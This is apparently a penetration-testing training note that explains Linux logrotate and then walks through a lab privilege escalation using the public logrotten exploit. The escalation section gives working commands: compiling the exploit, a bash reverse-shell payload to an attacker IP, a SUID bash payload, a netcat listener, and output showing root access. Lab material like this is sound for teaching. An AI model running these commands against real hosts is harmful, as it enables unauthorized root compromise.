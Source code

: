```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Logrotate

Linux system produces large amounts of log files. To prevent the hard disk from overflowing, a tool called **logrotate** takes care of archiving or disposing of old logs.

`Logrotate` has many features for managing log files. These include the specification of:

* the `size` of the log file,
* its `age`,
* and the `action` to be taken when one of these factors is reached.

The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

## logrotate Config Files

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

```shell-session
sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```shell-session
McClewR@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```shell-session
McClewR@htb[/htb]$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

```bash
logrotate --force /etc/logrotate.d/dpkg
```

## Privilege Escalation

To exploit `logrotate`, we need some requirements that we have to fulfil.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
   * 3.8.6
   * 3.11.0
   * 3.15.0
   * 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.

{% code title="Command" %}
```bash
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```
{% endcode %}

{% code title="Command" %}
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > payloadfile
```
{% endcode %}

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

{% code title="Command" %}
```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
{% endcode %}

{% code title="Example Output" %}
```
create
```
{% endcode %}

In this example, it is the option: `create`. Therefore we have to use the exploit adapted to this function.

After that, we have to start a listener on our machine, which waits for the target system's connection.

```bash
nc -nlvp 9001
```

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

{% code title="Command" %}
```bash
./logrotten -p ./payload /tmp/tmp.log
```
{% endcode %}

{% code title="NetCat Listener Output" %}
```bash
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
